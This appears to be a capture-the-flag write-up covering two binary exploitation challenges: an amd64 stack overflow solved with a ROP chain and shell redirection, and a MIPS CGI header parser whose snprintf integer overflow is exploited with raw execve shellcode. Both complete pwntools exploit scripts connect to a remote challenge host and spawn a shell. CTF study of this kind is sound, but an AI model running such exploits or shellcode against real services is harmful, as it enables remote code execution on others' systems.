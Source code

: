 ## dagongren1

Simple overflow. The point is pipe redirection.

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"

binary = ("./dagongren1")
elf = ELF(binary, checksec=False)

if not args['REMOTE']:
    r = process(binary)
else:
    r = remote("81.70.209.171", 50601)

pop_rdi = 0x0000000000400813
pop_rsi_r15 = 0x0000000000400811

sh = 'a'*0x28
sh += flat([
    pop_rdi,
    0x40088B, # %s
    pop_rsi_r15,
    0x600e00,
    0,
    elf.plt['__isoc99_scanf'],
    0x600e00
    ])

r.recvuntil("On\n")
r.sendline(sh)

pause()
r.sendline(asm(shellcraft.sh()))

r.sendline("exec /bin/sh 1>&0")
r.interactive()
```

## SuperCgi

A simple HTTP header parser written in MIPSEL32. The vuln is below:

```c
  v3 = 0xFF;
  i = 0;
  do
  {
    if ( !fgets(buf, 1024, stdin) || !strcoll(buf, "\n") || !strcoll(buf, "\r\n") )
      break;
    v0 = strlen(UA);
    if ( !strncmp(buf, UA, v0) )
    {
      v1 = strlen(UA);
      i = snprintf((int)&ptr[i], v3, "%s", &buf[v1 + 1]);
      v3 -= i;
    }
  }
```

`snprintf` will return more than v3, then causing integer overflow. Thus we can overflow the stack.

We simple write shellcode on the bss section (which seems RWX), and jump to shellcode.

```python
from pwn import *
context.arch = 'mips'
context.endian = 'little'
context.log_level = "debug"
context.bits = 32

import sys 

if not args['REMOTE']:
    r = process(['qemu-mipsel', './SuperCgi'])
    #r = process(['qemu-mipsel', '-g', '1234', './SuperCgi'])
else:
    r = remote("81.70.209.171", 50803)

request = "GET /"
r.sendline(request)

ua = "User-Agent: " + 'a'*0x20 
r.sendline(ua)

ua = "User-Agent: " + 'a'*0xf0
r.sendline(ua)

ua = "User-Agent: " 
ua += 'b'*(0x20-5)
#ua += p32(0x7ffff3c0)
#ua += p32(0x7ffffb10)
ua += p32(0x412e50)
r.sendline(ua)

ua = "\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00"  
r.sendline(ua)
r.sendline("")

r.interactive()
```
